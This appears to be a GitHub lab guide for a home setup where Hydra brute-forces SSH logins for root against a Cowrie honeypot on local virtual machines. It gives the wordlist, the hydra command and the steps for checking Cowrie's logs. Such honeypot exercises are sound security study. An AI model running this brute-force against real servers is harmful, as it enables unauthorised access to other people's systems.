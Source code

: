 # ⚙️ Project Setup: Hydra SSH Brute-Force Attack on Cowrie Honeypot

This setup guide walks through the entire process of using Hydra to perform a brute-force SSH attack against a Cowrie honeypot running on a virtual Ubuntu server.

---

## 🖥️ Virtual Environment

- **Attacker Machine:** Kali Linux VM (Hydra pre-installed)
- **Target Machine:** Ubuntu Server VM with Cowrie Honeypot
- **Network:** Both VMs set to **Host-Only Adapter** on VirtualBox for local traffic sniffing

---

## ✅ Step-by-Step Instructions

---

### 🔹 Step 1: Create Project Directory

**On Kali Linux:**

```bash
cd ~
mkdir hydra-project
cd hydra-project
[Hydra project folder created](screenshots/01_hydra_project_folder_created.png)

###🔹 Step 2: Create a Password Wordlist
Inside the hydra-project directory, run:

echo "123456" > passwords.txt
echo "password" >> passwords.txt
echo "admin" >> passwords.txt
echo "toor" >> passwords.txt
echo "cowrie" >> passwords.txt
Verify the contents:

cat passwords.txt
[Password texts created](screenshots/02_passwords_txt_created.png)

###🔹 Step 3: Run Hydra SSH Brute-Force Attack
Replace <target-ip> with the IP address of your Cowrie VM, and ensure it's listening on port 2222.

hydra -l root -P passwords.txt ssh://<target-ip>:2222
✅ Example:

hydra -l root -P passwords.txt ssh://192.168.40.83:2222
[Hydra attack success](screenshots/03_hydra_attack_success.png)

###🔹 Step 4: Check Cowrie Logs
Now switch to your Ubuntu Server VM running Cowrie.

Activate the virtual environment:

cd /home/cowrie/cowrie
source cowrie-env/bin/activate
Check Cowrie logs:

tail -f var/log/cowrie/cowrie.log
[Cowrie log verified](screenshots/04_cowrie_log_verified.png)

📝 Notes
Ensure both VMs are running and connected to the same Host-Only network.

Cowrie must be actively running before launching the Hydra attack.

Use cowrie bin/cowrie status to verify its status.

